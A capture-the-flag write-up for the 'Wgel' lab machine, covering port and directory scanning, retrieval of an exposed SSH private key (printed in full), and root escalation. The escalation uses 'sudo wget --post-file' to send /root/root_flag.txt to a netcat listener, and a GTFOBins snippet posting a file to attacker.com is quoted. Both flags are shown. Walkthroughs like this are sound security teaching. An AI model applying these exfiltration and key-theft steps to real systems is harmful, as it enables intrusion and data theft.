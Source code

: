 # Wgel CTF

## #1 - User flag

Let's start by scanning the IP with nmap:

~~~
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
~~~

2 ports are open: ssh and http, both on standard ports. Let's start with http.

* No `robots.txt` file (http://10.10.251.64/robots.txt)
* When you connect, the default Apache welcome page is displayed, but there is something wrong in it. We'll see that in a moment
* dirsearch discovers a `/sitemap` directory:

~~~
$ /data/src/dirsearch/dirsearch.py -u http://10.10.251.64 -E -w /data/src/wordlists/common.txt 

 _|. _ _  _  _  _ _|_    v0.3.9
(_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, js, html, do, action | HTTP method: get | Threads: 10 | Wordlist size: 4614

Error Log: /data/src/dirsearch/logs/errors-20-05-13_23-05-49.log

Target: http://10.10.251.64

[23:05:49] Starting: 
[23:05:50] 200 -   11KB - /
[23:05:50] 403 -  278B  - /.hta
[23:06:01] 200 -   11KB - /index.html
[23:06:09] 403 -  278B  - /server-status
[23:06:10] 301 -  316B  - /sitemap  ->  http://10.10.251.64/sitemap/

Task Completed
~~~

* Connecting to http://10.10.251.64/sitemap/ shows a blog. It seems to be a wordpress installation using the unapp theme from colorlib, but it's actually a fake wordpress installation (no `wp-login` or `wp-admin` path, all links are fake). Let's confirm what directories we have under `/sitemap/`:

~~~
$ /data/src/dirsearch/dirsearch.py -u http://10.10.251.64/sitemap -E -w /data/src/wordlists/common.txt 

 _|. _ _  _  _  _ _|_    v0.3.9
(_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, js, html, do, action | HTTP method: get | Threads: 10 | Wordlist size: 4614

Error Log: /data/src/dirsearch/logs/errors-20-05-13_23-04-09.log

Target: http://10.10.251.64/sitemap

[23:04:09] Starting: 
[23:04:10] 403 -  278B  - /sitemap/.hta
[23:04:10] 200 -   21KB - /sitemap/
[23:04:10] 301 -  321B  - /sitemap/.ssh  ->  http://10.10.251.64/sitemap/.ssh/
[23:04:16] 301 -  320B  - /sitemap/css  ->  http://10.10.251.64/sitemap/css/
[23:04:19] 301 -  322B  - /sitemap/fonts  ->  http://10.10.251.64/sitemap/fonts/
[23:04:21] 301 -  323B  - /sitemap/images  ->  http://10.10.251.64/sitemap/images/
[23:04:21] 200 -   21KB - /sitemap/index.html
[23:04:22] 301 -  319B  - /sitemap/js  ->  http://10.10.251.64/sitemap/js/

Task Completed
~~~

Interesting... we have a hidden `.ssh/` directory, and it contains a private key. Let's get it:

~~~
$ curl http://10.10.251.64/sitemap/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
/1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
-----END RSA PRIVATE KEY-----
~~~

Let's check if it is password protected:

~~~
$ /data/src/john/run/ssh2john.py id_rsa
id_rsa has no password!
~~~

No, it's not. However, to use it, we need to know what user is associated to this key.

Back to the Apache default webpage, we notice that there is somethin wrong. See the comparison between these 2 screenshots (our default page on the left, a standard Apache default page on the right).

!["apache default page"](files/apache-default-page.png)

Let's have a closer look at the source code of the page:

```html
$ curl -s http://10.10.251.64/

...[SNIP]...

          <pre>
/etc/apache2/
|-- apache2.conf
|       `--  ports.conf
|-- mods-enabled
|       |-- *.load
|       `-- *.conf
|-- conf-enabled
|       `-- *.conf
|-- sites-enabled
|       `-- *.conf


 <!-- Jessie don't forget to udate the webiste -->
          </pre>

...[SNIP]...

```

The offset is due to a comment that has been added to the page: `Jessie don't forget to udate the webiste`. The typo (`webiste` instead of `website`) is another indication that it has probably been manually added. Could `Jessie` be the user we are looking for?

Let's check:

~~~
$ chmod 600 id_rsa
$ ssh -i id_rsa jessie@10.10.251.64
~~~

It works! We are now connected.

Our flag is in the `Documents` folder:

~~~
jessie@CorpOne:~$ ls -l
total 44
drwxr-xr-x 2 jessie jessie 4096 oct 26  2019 Desktop
drwxr-xr-x 2 jessie jessie 4096 oct 26  2019 Documents
drwxr-xr-x 2 jessie jessie 4096 oct 26  2019 Downloads
-rw-r--r-- 1 jessie jessie 8980 oct 26  2019 examples.desktop
drwxr-xr-x 2 jessie jessie 4096 oct 26  2019 Music
drwxr-xr-x 2 jessie jessie 4096 oct 26  2019 Pictures
drwxr-xr-x 2 jessie jessie 4096 oct 26  2019 Public
drwxr-xr-x 2 jessie jessie 4096 oct 26  2019 Templates
drwxr-xr-x 2 jessie jessie 4096 oct 26  2019 Videos
jessie@CorpOne:~$ ls -l Desktop/
total 0
jessie@CorpOne:~$ ls -l Documents/
total 4
-rw-rw-r-- 1 jessie jessie 33 oct 26  2019 user_flag.txt
jessie@CorpOne:~$ cat Documents/user_flag.txt 
057c67131c3d5e42dd5cd3075b198ff6
~~~

## #2 - Root flag

~~~
jessie@CorpOne:~$ ls -l /root/
ls: cannot open directory '/root/': Permission denied
~~~

We need to elevate our privileges. Let's start by checking our privileges:

~~~
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
~~~

We can run `wget` as `root` without password. Let's check [here](https://gtfobins.github.io/gtfobins/wget/) what we can do with it.

We can upload a file with sudo access:

```bash
export URL=http://attacker.com/
export LFILE=file_to_send
wget --post-file=$LFILE $URL
```

As the first flag was named `user_flag.txt`, the root flag will likely be `root_flag.txt`. Let's try... First open a listener on your local machine:

~~~
$ nc -nlvp 1234
~~~

And on the remote machine, enter the following command:

~~~
jessie@CorpOne:~$ sudo wget --post-file=/root/root_flag.txt 10.9.**.**:1234
--2020-05-14 09:11:19--  http://10.9.**.**:1234/
Connecting to 10.9.**.**:1234... connected.
HTTP request sent, awaiting response...
~~~

We now get the flag: `b1b968b37519ad1daa6408188649263d`

